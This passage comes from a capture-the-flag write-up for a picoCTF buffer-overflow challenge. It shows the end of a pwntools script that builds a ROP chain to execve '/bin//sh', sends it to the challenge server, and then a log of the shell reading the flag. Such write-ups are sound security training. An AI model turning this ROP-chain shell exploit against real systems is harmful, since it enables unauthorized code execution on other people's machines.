 ```python
    p += pack('<I', 0x080e5060) # padding without overwrite ebx
    p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0804a3c2) # int 0x80

    return fit({overflow_offset: p})

def main():
    # proc = process('./ropfu')
    proc = remote("saturn.picoctf.net", 55346)

    offset = 28
    payload = get_rop(offset)

    log.info("Sending payload: \n{}".format(hexdump(payload)))
    proc.sendlineafter(b'grasshopper!\n', payload)

    proc.interactive()


if __name__ == "__main__":
    main()
```

Running the script gives:

```terminal
$ python3 solve.py                    
[+] Opening connection to saturn.picoctf.net on port 55346: Done
[*] Sending payload: 
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  b9 83 05 08  │eaaa│faaa│gaaa│····│
    00000020  60 50 0e 08  41 41 41 41  3a 07 0b 08  2f 62 69 6e  │`P··│AAAA│:···│/bin│
    00000030  f2 90 05 08  b9 83 05 08  64 50 0e 08  41 41 41 41  │····│····│dP··│AAAA│
    00000040  3a 07 0b 08  2f 2f 73 68  f2 90 05 08  b9 83 05 08  │:···│//sh│····│····│
    00000050  68 50 0e 08  41 41 41 41  80 fb 04 08  f2 90 05 08  │hP··│AAAA│····│····│
    00000060  22 90 04 08  60 50 0e 08  29 9e 04 08  68 50 0e 08  │"···│`P··│)···│hP··│
    00000070  b9 83 05 08  68 50 0e 08  60 50 0e 08  80 fb 04 08  │····│hP··│`P··│····│
    00000080  4e 05 08 08  4e 05 08 08  4e 05 08 08  4e 05 08 08  │N···│N···│N···│N···│
    *
    000000a0  4e 05 08 08  4e 05 08 08  4e 05 08 08  c2 a3 04 08  │N···│N···│N···│····│
    000000b0
[*] Switching to interactive mode
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_1b5a4b40}
```

Pwned!
